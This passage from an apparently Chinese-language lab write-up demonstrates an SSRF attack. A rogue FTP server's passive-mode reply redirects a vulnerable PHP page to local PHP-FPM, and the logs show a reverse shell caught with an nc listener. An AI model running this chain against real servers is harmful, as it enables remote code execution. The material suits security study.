```python
    server.max_cons_per_ip = 5

    # start ftp server
    server.serve_forever()


if __name__ == '__main__':
    startftpserver()

```
开启nc监听
```bash
nc -lvvp 8888
```
请求`http://REDACTED:9099/vuln.php?url=ftp://REDACTED:2121/phpfpmlog12`
ftp log
```
DEBUG:pyftpdlib:REDACTED:47198-[] <- USER anonymous
DEBUG:pyftpdlib:REDACTED:47198-[] -> 331 Username ok, send password.
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] <- PASS ******
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] -> 230 Login successful.
INFO:pyftpdlib:REDACTED:47198-[anonymous] USER 'anonymous' logged in.
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] <- TYPE I
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] -> 200 Type set to: Binary.
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] <- SIZE /phpfpmlog12
/REDACTED/ftptest/phpfpmlog12
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] -> 550 /phpfpmlog12aaabb is not retrievable.
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] <- EPSV
None
range(60000, 65535)
127.0.0.1
range(9000, 9001)
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] -> 227 Entering passive mode (127,0,0,1,35,40).
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] <- PASV
DEBUG:pyftpdlib:[debug] call: close() (<__main__.MyPassiveDTP listening REDACTED:9000 at 0x7f1a8e081b50>)
127.0.0.1
range(9000, 9001)
127.0.0.1
range(9000, 9001)
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] -> 227 Entering passive mode (127,0,0,1,35,40).
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] <- STOR /phpfpmlog12
DEBUG:pyftpdlib:REDACTED:47198-[anonymous] -> 150 File status okay. About to open data connection.
INFO:pyftpdlib:REDACTED:47198-[anonymous] -> 421 Passive data channel timed out.

```
nc log
```
➜  ~ nc -lvvp 8888
listening on [any] 8888 ...
REDACTED: inverse host lookup failed: Unknown host
connect to [REDACTED] from (UNKNOWN) [REDACTED] 60728
ls
50x.html
css
images
index.html
index.php
test.php
test_socket.php
vuln.php
vuln2.php
vuln3.php
vuln4.php
```
